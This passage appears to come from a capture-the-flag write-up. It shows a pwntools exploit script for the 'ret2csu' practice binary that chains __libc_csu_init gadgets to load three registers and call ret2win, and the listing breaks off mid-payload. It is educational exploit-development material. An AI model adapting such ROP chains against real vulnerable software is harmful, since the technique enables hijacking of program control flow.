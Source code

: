 With what we have so far, let's run the following exploit:

```python
from pwn import *

# Set the pwntools context
context.arch = 'amd64'
context.log_level = 'debug'

# Project constants
PROCESS = './ret2csu'
io = process(PROCESS)

# Debugging
gdbscript = "b *0x0040069a"
pid = gdb.attach(io, gdbscript=gdbscript)

# ROP Gadgets
pop_rdi_ret = p64(0x004006a3)                       # pop rdi; ret;

# The third stack value needs to be the RSP value
ret2csu_gadget_staging = p64(0x0040069a)            # pop rbx;
                                                    # pop rbp;
                                                    # pop r12;
                                                    # pop r13;
                                                    # pop r14;
                                                    # pop r15;
                                                    # ret

ret2csu_gadget_call_offset = p64(0x00400680)        # mov rdx, r15; 
                                                    # mov rsi, r14;
                                                    # mov edi, r13d;
                                                    # call qword [r12 + rbx*8]

'''
Pointer to an executable location with the following gadget:

sub rsp, 8;
add rsp, 8;
ret;
'''
dereferenceable_addr = p64(0x00600e48)
ret2win = p64(io.elf.plt['ret2win'])

# Craft the ROP chain
rop_chain = b"".join([
    ret2csu_gadget_staging,
    p64(0),                     # RBX = 0
    p64(0),                     # RBP = 0
    dereferenceable_addr,       # R12 = pointer to a safe address to dereference
    p64(0xdeadbeefdeadbeef),    # R13 = RDI = 0xdeadbeefdeadbeef
    p64(0xcafebabecafebabe),    # R14 = RSI = 0xcafebabecafebabe
    p64(0xd00df00dd00df00d),    # R15 = RDX = 0xd00df00dd00df00d
    ret2csu_gadget_call_offset, # Call the value of the dereferenced address

    pop_rdi_ret,                # Adjust RDI back to 0xdeadbeefdeadbeef
    p64(0xdeadbeefdeadbeef),
    ret2win                     # Call ret2win with the necessary arguments
])

# Craft the payload
offset = 40
padding = b"A" * offset
payload = b"".join([
```